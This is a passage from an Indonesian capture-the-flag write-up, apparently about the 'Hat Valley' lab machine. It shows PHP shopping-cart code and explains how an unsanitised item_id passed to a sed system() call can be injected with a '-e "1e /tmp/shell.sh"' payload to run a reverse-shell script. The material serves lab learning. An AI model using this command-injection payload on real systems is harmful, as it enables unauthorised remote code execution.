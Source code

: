 ```php
    $files = array_slice($dir, 2);

    foreach($files as $file) {
        $user_id = substr($file, -18);
        if($user_id === $_GET['user'] && checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
            $product_file = fopen("{$STORE_HOME}cart/{$file}", "r");
            $details = array();
            while (($line = fgets($product_file)) !== false) {
                if(str_replace(array("\r", "\n"), '', $line) !== "***Hat Valley Cart***") { //don't include first line
                    array_push($details, str_replace(array("\r", "\n"), '', $line));
                }
            }
            foreach($details as $cart_item) {
                 $cart_items = explode("&", $cart_item);
                 for($x = 0; $x < count($cart_items); $x++) {
                      $cart_items[$x] = explode("=", $cart_items[$x]); //key and value as separate values in subarray
                 }
                 $html .= "<tr><td>{$cart_items[1][1]}</td><td>{$cart_items[2][1]}</td><td>{$cart_items[3][1]}</td><td><button data-id={$cart_items[0][1]} onclick=\"removeFromCart(this, localStorage.getItem('user'))\" class='remove-item'>Remove</button></td></tr>";
            }
        }
    }
    echo $html;
    exit;
}

?>
```
Saat memeriksa file, dan saya perhatikan ```sed``` perintah ini digunakan untuk menghapus cart data file, yang dapat kita gunakan untuk memungkinan melakukan ```Remote Code Execution```.
![image](https://media.discordapp.net/attachments/740245586095112242/1057851456096567306/image.png)

Kita mencobanya dengan melihat payload yang ada pada [GTFobins](https://gtfobins.github.io/gtfobins/sed/), Jadi kita dapat menggunakan ```-e``` flag yang diberikan dalam bantuan sed command, ini memungkinkan kita untuk pass the script rev shell kita. Jadi mari kita lakukan bagaimana abuse perintah sed itu: 
1. Pertama input kita terlihat seperti ini: 
```bash
' -e "1e /tmp/shell.sh" /tmp/shell.sh '
```
2. Yang akan digantikan oleh ```$item_id```, Example dengan payload:
```bash
system("sed -i '/item_id=' -e "1e /tmp/shell.sh" /tmp/shell.sh '/d' {$STORE_HOME}cart/{$user_id}");
```
Disini kita mencoba mengexploitasikan dengan cara add cart, dan lihat hasil nya pada directory ```/var/www/store/cart``` disini hasilnya dari add cart akan muncul.
![image](https://media.discordapp.net/attachments/740245586095112242/1057853030508277852/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057853143280533564/image.png)
